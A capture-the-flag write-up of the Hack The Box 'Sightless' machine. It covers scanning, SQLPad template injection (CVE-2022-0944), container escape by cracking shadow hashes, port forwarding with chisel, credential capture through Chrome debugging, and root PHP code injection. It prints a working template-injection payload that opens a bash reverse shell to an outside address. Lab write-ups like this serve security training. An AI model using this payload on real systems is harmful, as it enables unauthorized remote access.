```yaml
---
date: 2024-12-10
categories: [Linux, Easy]
---
```


![logo](https://github.com/user-attachments/assets/7392fc4b-a18b-4189-8f58-00f1536e7597)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [EmSec](https://app.hackthebox.com/users/962022)         | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---









- I start with a scan of the open ports
    
    ```python
    nmap -p- --open -vvv --min-rate 5000 -Pn -sS 10.10.11.32 -oG scan
    ```
    
    ![image 25](https://github.com/user-attachments/assets/d24e27e8-a791-43fd-a598-47d431fcd7c4)
    
- I continue with a scan of the versions and technologies that are running on the open ports that we have found
    
    ```python
    nmap -p21,22,80 -sCV 10.10.11.32 -oN ports
    ```
    
    ![image 1 3](https://github.com/user-attachments/assets/6daf4857-2e8e-4c24-8594-2a8415111acd)
    
- I found the domain `sightless.htb` and add it to the file in the `/etc/hosts` file
    
- I look at what technologies they are using on the website.
    
    ```python
    whatweb https://sightless.htb
    ```
    
    ![image 2 2](https://github.com/user-attachments/assets/15af6568-d13f-4866-9f4b-2ba7ae6e31b1)

    
- I make a list of directories and files that end with specific extensions but I can't find anything remarkable.
    
    ![image 4 2](https://github.com/user-attachments/assets/54a8ce75-31dd-4cbe-acda-d946723f3266)

    
- I check the code of the main page and find a subdomain, add it to `/etc/hosts` and enter the web to see its content.
    
    ![image 5 1](https://github.com/user-attachments/assets/6dd1ef21-a4a5-43e1-80bb-aab3e5f3f1a5)
    
    ![image 6 1](https://github.com/user-attachments/assets/aad96827-8de9-40ee-a390-49097fb7138f)

    ![image 7 1](https://github.com/user-attachments/assets/c6d217d7-6722-4590-a36f-194c0e8b7247)

- I find a version of SQL Pad that when searching for vulnerabilities I find one that allows code execution. [CVE-2022-0944](https://nvd.nist.gov/vuln/detail/CVE-2022-0944), [Template injection](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)

- I modify the payload that shows the CVE to run a revershell and I get a shell
    
    ```bash
    {{ process.mainModule.require('child_process').exec("bash -c 'bash -i >& /dev/tcp/10.10.14.142/4444 0>&1'") }}
    ```
    
    ![image 8 1](https://github.com/user-attachments/assets/77816332-1961-4f04-a223-aa38adf8299a)
    
- When I check which user I am, I see that I am root and when I see which network I am on, I realize that I am inside a container.
    
    ![image 9 3](https://github.com/user-attachments/assets/48cf3626-ecd1-436b-a62e-cabdfcb2ea7d)
    
- When looking in the container files I see that I can read `/etc/shadow` file, which contains the encrypted user passwords.
    
    ![image 10 2](https://github.com/user-attachments/assets/6336d002-0fdd-4037-bc79-b46c6bf6b4e3)
    
- I copy one of these hashes and when I pass it through `john` I get the password of the user `michael`. Now I can connect via ssh to the system and read the first flag.
    
    ![image 11 2](https://github.com/user-attachments/assets/9a021389-1492-4898-a606-5d1e702614d0)

    ![image 12 3](https://github.com/user-attachments/assets/3cd3ac68-8dd6-4483-a369-8ac9dd35dea0)

    
- To escalate privileges I start by looking at the ports that are in use. I find 8080 which from outside the machine I am not able to see. I use chisel to send that port to my machine
    
    ![image 13 1](https://github.com/user-attachments/assets/cbdae75d-fedc-474f-824e-2314090109e1)

    
- I see a panel to log in but after several attempts I am not able to get anything
    
    ![image 14 1](https://github.com/user-attachments/assets/25006603-252c-495c-8a75-076bd134f2bb)

    
- I look at the processes running on the machine and find a few that catch my eye. After searching for information I find that they may be related to the other ports that are in use.
    
- I pass those ports to my machine with chisel and add them in chrome to be able to inspect the debugging processes.
    
    ![image 15 1](https://github.com/user-attachments/assets/2061132b-3222-421d-b116-244579bfc450)

    ![image 16 1](https://github.com/user-attachments/assets/e01be6c0-60d4-4a3c-8bba-3e8be2c1db4f)
    
- By doing this I am able to inspect the debugging of these processes
    
    ![image 17 1](https://github.com/user-attachments/assets/21f9be69-4fac-4c76-88b1-2d87fca60ea1)
    
- The process connects and disconnects from the panel continuously. When inspecting the calls we can see the credentials in plain text
    
    ![image 18 1](https://github.com/user-attachments/assets/33ea9c4d-0531-46e1-b7f1-bf534c282d1c)
    
- Using the credentials found we can log in and start investigating the site
    
    ![image 19 1](https://github.com/user-attachments/assets/c226addd-a00e-41f2-a493-80923718b2c0)
    
- After a while I find inside the PHP section a field in which I can inject code and it executes as root. I copy the flag to a directory that I can access and change the permissions. With this I am able to read the second flag

	![image 20 1](https://github.com/user-attachments/assets/0506c05e-56cb-46d3-98d3-117dafc1b70c)
	
	![image 21 1](https://github.com/user-attachments/assets/ab8d62c6-4c3b-4869-9fc2-ae9426926ac2)
